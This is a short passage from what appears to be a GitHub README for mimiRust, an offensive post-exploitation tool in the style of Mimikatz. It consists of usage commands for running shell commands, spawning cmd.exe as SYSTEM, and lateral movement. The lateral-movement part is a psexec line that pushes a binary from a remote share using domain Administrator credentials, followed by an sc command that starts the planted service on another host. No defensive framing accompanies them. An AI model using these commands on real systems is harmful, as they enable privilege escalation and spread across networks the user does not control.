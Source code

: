 <br><h3>Executing shell commands</h3>
<code>mimiRust::pivioting $ shell whoami</code>
<br>

<br><h3>Spawning a process with SYSTEM</h3>
<code>mimiRust::privilege # spawn-path cmd.exe</code><br>
<code>mimiRust.exe -s cmd.exe</code>

<br><h3>Lateral movement through the network</h3>
<code>psexec /computer:WIN-SJ39U8K8RBS /binary_path:\\WIN-GVVSP2K4NM6\C$\Users\Administrator\Downloads\write.exe /sn:MimiRust /user:THOTTYSPLOITY\Administrator /pass:Welcome01</code><br>
<code>shell sc \\WIN-SJ39U8K8RBS start MimiRust</code><br>

<h2>Demo</h2>
<small>click on the demo to get a higher resolution</small>
<img src="https://github.com/ThottySploity/mimiRust/blob/main/demo.gif" alt="mimiRust Demo" width="100%">
